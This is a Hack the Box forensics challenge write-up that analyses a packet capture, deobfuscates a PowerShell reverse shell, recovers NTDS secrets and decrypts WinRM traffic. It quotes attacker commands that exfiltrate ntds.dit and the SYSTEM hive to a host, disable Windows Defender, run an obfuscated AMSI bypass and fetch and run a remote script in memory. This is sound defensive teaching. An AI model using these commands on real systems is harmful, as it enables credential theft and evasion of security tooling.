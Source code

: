 ```yaml
---
title: "HTB • Keep the steam going"
tags:
  - "Forensics"
  - "Hard Difficulty"
  - "Advanced"
  - "Windows"
  - "Deobfuscation"
  - "WinRM"
  - "Blue Team"
  - "Packet Capture"
  - "Malware Analysis"
  - "PowerShell"
excerpt: "Keep the steam going is a hard forensics challenge on Hack the Box that involves the inspection of a packet capture to pinpoint malicious traffic. Along the way we deobfuscate a powershell script, recover NTDS secrets, and decrypt WinRM traffic."
categories:
  - "Writeups"
  - "Hack the Box Challenges"
img_path: "/assets/img/post/htb-challenges-keep-the-steam-going/"
---
```


_Keep the steam going_ is a hard forensics challenge created by [**thewildspirit**](https://app.hackthebox.com/users/70891) on [**Hack the Box**](https://app.hackthebox.com/challenges/279) that involves the inspection of a packet capture to pinpoint malicious traffic. Along the way we deobfuscate a powershell script, recover NTDS secrets, and decrypt WinRM traffic.

> The network in which our main source of steam is connected to, got compromised. If they managed to gain full control of this network, it would be a disaster!

## Initial Capture Analysis

We'll first open the capture file in [Wireshark](https://www.wireshark.org/) and filter by HTTP traffic. We immediately find a request to `http://192.168.1.9/rev.ps1`{:.filepath}. 

![Obfuscated shell](rev.png)
_We find a powershell script being served over HTTP_

Although the script is obfuscated using several different methods, parts of it are readable. We suspect this is a reverse shell script though because of the general length as well as the descriptive variable names such as _stream_, _sendback_, and _client_.

## Reverse Shell

As we manually deobfuscate some of the content from that powershell script, we discover that the script connects back to **192.168.1.9** on port **4443**. Let's check the packet capture for TCP traffic over this port.

![Reverse shell session](shell.png)
_We inspect the plaintext reverse shell session_

The adversary sends a series of commands to seemingly exfiltrate the NTDS database along with the SYSTEM registry hive. This is presumably done in order to extract authentication secrets offline and establish persistence.

>
```powershell
whoami;hostname
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
iex (New-Object System.Net.WebClient).DownloadFile("http://192.168.1.9/n.exe","C:\Users\Public\Music\n.exe")
certutil -encode "C:\temp\Active Directory\ntds.dit" "C:\temp\ntds.b64"
certutil -encode "C:\temp\REGISTRY\SYSTEM" "C:\temp\system.b64"
cat C:\temp\ntds.b64 | C:\Users\Public\Music\n.exe 192.168.1.9 8080
cat C:\temp\system.b64 | C:\Users\Public\Music\n.exe 192.168.1.9 8080
```
{:.nolineno}

The adversary uses `certutil.exe`{:.filepath} to encode the files, then `n.exe`{:.filepath} (probably netcat), to transport the files over TCP port **8080**.

## Exfiltration

Let's check for traffic over port 8080 in our capture file in order to extract `ntds.b64`{:.filepath} and `system.b64`{:.filepath}.

![Exfiltration traffic](exfil.png)
_The adversary encodes & downloads some goodies_

TCP Streams 23 and 24 should be `ntds.b64`{:.filepath} and `system.b64`{:.filepath} respectively. with this in mind let's export both streams then decode the contents.

```bash
for n in ntds system; do grep -v '-' $n.b64 | base64 -d > $n; done
file ntds system # make sure they are properly formatted
```
{:.nolineno}

Now that the recovered files are in the correct format, we follow the tracks by using `secretsdump.py`{:.filepath} from [impacket](https://github.com/fortra/impacket) to extract some secrets we could potentially use to decrypt certain communications in the capture file.

```bash
mkdir secrets
secretsdump.py local -history -ntds ./ntds -system ./system -outputfile ./secrets/export
```
{:.nolineno}

We can now access the extracted secrets in `./secrets/`{:.filepath} if we need to.

## WinRM

Back at the packet capture, we filter out the traffic sent before the exfiltration over port 8080 using the filter `frame.number > 21346`. This will allow us to better see what actions the adversary took after stealing the NTDS secrets.

![Traffic after exfiltration](post-exfil.png)
_Looking for actions taken by the adversary after reading the NTDS secrets_

It looks like the attacker then used the NT hash for the user **Administrator** to connect to the machine via WinRM. The request body in each post-authentication request seems to be encrypted and labeled "**application/http-spnego-session-encrypted**". After some research into encrypted WinRM exchanges, we come across [this gist](https://gist.github.com/jborean93/d6ff5e87f8a9f5cb215cd49826523045) created by [Jordan Borean](https://github.com/jborean93).

### Decryption

using [the python script](https://gist.github.com/jborean93/d6ff5e87f8a9f5cb215cd49826523045) mentioned earlier, we are able to decrypt the WinRM traffic using the NT hash for the user _Administrator_.

```bash
python3 winrm_decrypt.py -n "8bb1f8635e5708eb95aedf142054fc95" capture.pcap > decrypted.txt
```
{:.nolineno}

Now `decrypted.txt`{:.filepath} contains a bunch of XML that we filter through using some GNU utilities.

```bash
grep -Ei 'command|argument' decrypted.txt # Found tags rsp:Command, rsp:Arguments
grep -i '<rsp:Arguments>' decrypted.txt |
  sed -E 's/.*>(.*)<.*/\1/g' |
  base64 -d > arguments.bin # Save arguments
```
{:.nolineno}

Looking at the `arguments.bin`{:.filepath} file, there seems to be powershell code within the `<S N="V">` tags. Every other command is `(get-location).path`, which is probably not manually run by the adversary but rather a product of their WinRM shell.

```bash
strings arguments.bin |
  grep -i '<S N="V">' |
  sed 's/^\s*<S N="V">//' |
  grep -v '^(get-location).path$'
```
{:.nolineno}

>
```powershell
whoami;hostname
sc stop WinDefend
Set-MpPreference -DisableRealtimeMonitoring $true
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
echo "[REDACTED]"
iex (new-object net.webclient).downloadstring('http://192.168.1.9/drop.ps1')
```
{:file="input.ps1"}

It seems that the adversary disables Windows defender, bypasses AMSI, and executes a remote powershell script in memory. In between the last two commands, we can also find the flag.
